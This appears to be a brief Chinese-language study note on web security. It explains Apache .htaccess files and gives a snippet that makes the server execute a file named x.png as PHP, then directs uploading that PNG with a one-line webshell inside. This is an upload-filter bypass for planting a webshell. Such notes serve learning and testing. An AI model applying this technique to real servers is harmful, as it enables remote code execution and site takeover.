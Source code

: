 > ![image-20230831143440176](../资源文件/图片/image-20230831143440176.png)



### .htaccess解析

> **基本概念：**.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
>
> 创建.htaccess代码：
>
> ```php
> <FilesMatch"x.png">
> SetHandlerapplication/x-httpd-php
> </FilesMatch>
> ```
>
> `x.png`为需要解析的文件名字
>
> 然后再传`x.png`内含有一句话木马
